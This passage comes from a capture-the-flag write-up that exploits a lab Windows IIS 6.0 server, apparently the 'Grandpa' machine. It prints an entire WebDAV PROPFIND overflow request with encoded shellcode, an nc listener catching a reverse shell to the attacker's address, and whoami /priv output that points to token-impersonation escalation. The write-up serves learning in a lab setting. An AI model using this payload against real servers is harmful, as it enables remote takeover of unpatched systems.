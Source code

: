 So be sure to set up your listner first and then run this script like so. If you get problems connecting then a instance reset should fix it.

```console
└──╼ [★]$ ./grandpa.py 10.129.95.233 80 10.10.14.93 1234
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```
```console
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.95.233.
Ncat: Connection from 10.129.95.233:1030.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>
```

Cool were in but we cant get the flag yet. We need to privilege escalate and running whoami /priv shows the exact same vulnerability as Granny.

```console
C:\temp>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 

C:\temp>
```
